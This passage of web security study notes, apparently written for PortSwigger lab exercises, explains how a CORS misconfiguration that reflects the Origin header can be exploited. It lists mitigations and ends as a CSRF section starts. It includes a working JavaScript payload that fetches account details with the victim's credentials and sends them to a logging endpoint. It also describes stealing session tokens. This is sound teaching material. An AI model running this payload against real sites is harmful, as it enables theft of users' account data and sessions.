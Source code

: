 
What happens here is that when we add the "Origin" header and the web app return the origin source as a trusted source. This becomes a problem because this web app trust any origin source from 3rd parties and subdomains.

**Script example**

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```


Trusted subdomains are also vulnerable to cors attack. If attackers found any one of subdomains that are vulnerable to XSS. They can use those subdomains as origin source and embed script in the request in the form of XHR script. The concept is pretty much similar. You can just use the vulnerable subdomain in Origin header!

<h3>CORS attack scenario in a nutshell</h3>

Let say you make a request and the response request has **Access-Control-Allow-Credentials: true**. The first assumption is this web app is using CORS. CORS is there to make a request from external 3rd parties and subdomains. Next, we can use burp suite to request another request but this time with **Origin: URL**. If it works you will see the reflected origin url in the response request. Now, we are certain that this web app is vulnerable. Because of **Access-Control-Allow-Credentials: true** we can embed a javascript to steal API or session token and send it to the attacker's machine using XHR. XHR is API that allows users to use script in HTML. The attackers also need their web server running with js script that is waiting for the API token from the request and then save it in let say log.txt or whatever file that specified in the js script. Basically XSS in XHR. 

<h3>Mitigation</h3>

-Use the whitelist. all subdomains should be listed in this whitelist as a trusted source. And make sure none of the subdomains have XSS vulnerability.

-Never used CORS as a security policies as its machanism is intended for accessing 3rd parties resources.

-Don't use null or wildcards in CORS.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## CSRF

CSRF or Cross-site request forgey is basically attackers trick users to perform functions for them. As for targeted functions are usually changing password, changing email, add admin role, submit forms.
